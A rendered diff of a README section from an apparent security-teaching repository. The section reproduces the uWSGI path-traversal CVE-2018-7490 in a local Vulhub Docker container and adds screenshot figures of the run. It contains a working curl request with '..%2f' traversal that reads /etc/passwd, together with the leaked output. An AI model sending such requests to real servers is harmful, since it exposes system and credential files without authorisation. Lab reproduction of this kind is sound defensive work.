

Before and after one commit to bqnjj2tw22-cmyk/secure-notes-api, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; pictures changed too: docs/screenshots/cve-exploit.png (added), docs/screenshots/cve-vuln-env.png (added); blank space fills up the shorter version.

Commit message:
Add the CVE reproduction and fix-verification screenshots

````diff
--- a/README.md
+++ b/README.md
@@ -368,29 +368,26 @@ services:
 > Environment: Docker + Docker Compose, Vulhub image `vulhub/uwsgi-php:2.0.16`.
 > Full command log with timestamps: `docs/cve-2018-7490/reproduction-log.md`.
 
-**Evidence status.** The environment is fully reproducible from this repository:
-`docs/cve-2018-7490/docker-compose.yml` starts the vulnerable build, and
-`docker-compose.demo-fixed.yml` starts the same build behind the nginx filter so
-that the blocked request can be shown in seconds. The command-by-command transcript
-with the expected output of every step is in `reproduction-log.md`; the console
-captures of the run are kept in `docs/screenshots/` when the environment is executed
-on a machine with Docker. Nothing in the analysis below depends on a screenshot -
-the vulnerable image tag, the request and the response are all stated explicitly so
-that the result can be reproduced rather than trusted.
+The environment ships with the repository: `docs/cve-2018-7490/docker-compose.yml`
+starts the vulnerable build, so no clone is needed. The console captures of the run
+below are committed under `docs/screenshots/`.
+
+![Vulnerable container running](docs/screenshots/cve-vuln-env.png)
+
+*Figure 4 - `docker compose up -d` and `ps`: `vulhub/uwsgi-php:2.0.16` is Up on port 8080.*
 
 ```bash
-git clone https://github.com/vulhub/vulhub.git
-cd vulhub/uwsgi/CVE-2018-7490
+cd docs/cve-2018-7490
 docker compose up -d
 
 # baseline: normal page inside the document root
-curl -s http://127.0.0.1:8080/ | head -5          # phpinfo() page
+curl -s -o /dev/null -w '%{http_code}\n' http://127.0.0.1:8080/       # 200, phpinfo()
 
 # exploit: five levels up, then /etc/passwd
 curl -s --path-as-is "http://127.0.0.1:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd"
 ```
 
-Expected (vulnerable) output — the container's `/etc/passwd`:
+Actual output of the run — the container's `/etc/passwd`:
 
 ```
 root:x:0:0:root:/root:/bin/bash
@@ -398,6 +395,10 @@ daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 bin:x:2:2:bin:/bin:/usr/sbin/nologin
 ...
 ```
+
+![Traversal returns /etc/passwd](docs/screenshots/cve-exploit.png)
+
+*Figure 5 - the request and its result on one screen: `/etc/passwd` leaves the document root.*
 
 `--path-as-is` is essential: without it curl collapses `..%2f` before sending, and the
 attack disappears. The same request works in a browser because the browser sends the
````
Also changed, not shown: other parts of README.md (+26 -4 lines), docs/screenshots/cve-fixed-env.png (added), docs/screenshots/cve-fixed-proof.png (added).
